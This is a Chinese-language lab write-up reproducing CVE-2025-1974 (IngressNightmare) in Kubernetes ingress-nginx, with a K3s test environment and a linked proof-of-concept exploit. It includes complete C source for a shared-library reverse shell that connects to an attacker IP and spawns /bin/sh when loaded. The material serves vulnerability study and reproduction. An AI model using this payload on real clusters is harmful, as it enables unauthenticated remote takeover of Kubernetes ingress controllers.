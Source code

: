 # IngressNightmare：Kubernetes Ingress 未经身份验证的远程代码执行漏洞（CVE-2025-1974）

Ingress-Nightmare 漏洞的核心问题在于 Ingress Nginx Controller 的准入控制器（Admission Controller）存在缺陷。准入控制器是 Kubernetes 的内部安全机制，用于在部署传入的入口对象之前对其进行验证。然而，该控制器无需身份验证即可通过网络访问，攻击者可以利用这一特性，向准入控制器发送恶意的 `AdmissionReview` 请求

需要特别说明的是， 如果要造成任意命令执行需要配合其他漏洞组合，例如下面的几个组合方式：

CVE-2025-1974 + CVE-2025-24514 通过 auth-url 注释注入RCE  
CVE-2025-1974 + CVE-2025-1097  通过 auth-tls-match-cn 注释注入RCE  
CVE-2025-1974 + CVE-2025-1098   通过镜像 UID 注入RCE

## 漏洞原理

攻击者通过构造恶意的 `AdmissionReview` 请求，可以注入任意的 Nginx 配置指令。这些指令会在配置验证阶段被 `nginx -t` 命令触发执行[^1]。例如，攻击者可以注入 `ssl_engine` 指令，该指令会加载指定的动态链接库。

更多细节参考：

* IngressNightmare: CVE-2025-1974 - 9.8 Critical Unauthenticated Remote Code Execution Vulnerabilities in Ingress NGINX[^2]
* Ingress-nginx CVE-2025-1974: What You Need to Know[^3]

## 漏洞环境

启动 Kubernetes 环境，这里使用轻量的 K3s 作为集群方案，借助 Docker Compose 启动：

```bash
docker compose up -d
```

稍等片刻，待环境完成初始化后，使用 docker exec 进入运行中的容器并执行初始化脚本：

```sh
$ docker ps -a | grep k3s
b26496088394   rancher/k3s:v1.29.1-k3s1   "/bin/k3s server"   3 minutes ago   Up 3 minutes   0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:443->443/tcp, :::443->443/tcp   cve-2025-1974-k3s-1

$ docker exec -it cve-2025-1974-k3s-1 sh
/ # sh ./exploit/init.sh
[INFO] Starting K3s server...
[INFO] Waiting for Kubernetes API to be ready...
[INFO] Installing ingress-nginx...
[INFO] Waiting for ingress-nginx controller...
[INFO] Deploying exploit pod...
[INFO] Waiting for exploit-pod to be ready...
[INFO] All done. You can exec into exploit-pod now!
root@exploit-pod:/#
```

init.sh 脚本会完成以下任务：

* 等待 Kubernetes API 就绪
* 安装 ingress-nginx 控制器
* 启动一个基于 python:3.10-slim 的 exploit-pod，并挂载主机目录 /exploit
* 自动安装常用工具如 vim、requests 和 httpx

当脚本运行完成后，你会自动进入名为 exploit-pod 的容器中，此时可以直接开始漏洞验证或测试。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。动态链接库源码：

```C
  #include <unistd.h>

  #include<stdio.h>
  #include<stdlib.h>
  #include<unistd.h>
  #include<sys/socket.h>
  #include<netinet/in.h>
  #include<arpa/inet.h>


  __attribute__((constructor)) static void reverse_shell(void)
  {
      char *server_ip="xxxx";
      uint32_t server_port=7788;
      int sock = socket(AF_INET, SOCK_STREAM, 0);
      struct sockaddr_in attacker_addr = {0};
      attacker_addr.sin_family = AF_INET;
      attacker_addr.sin_port = htons(server_port);
      attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
      system("touch /tmp/hacked");
      if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
          exit(0);
      dup2(sock, 0);
      dup2(sock, 1);
      dup2(sock, 2);
      char *args[] = {"/bin/sh", NULL};
      execve("/bin/sh", args, NULL);
  }
```

修改 server_ip 为你的服务器 IP ，或者进一步修改该源代码， 可以参考 [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main) [^4]这个 Github 仓库，或者直接使用他的环境进行编译。将编译后的 shell.so 拷贝到 ./exploit 目录下。

然后，我们在 exploit-pod 里，切到 exploit 目录， 执行利用代码。该利用代码来自于 [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main)Github仓库[^5]。

```
cd /exploit
python3 exploit.py
```

可见， 我们成功在 ingress-nginx 的 pod 的 /tmp/ 目录成功创建了 hacked 文件

![](1.jpg)

## 参考链接

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main
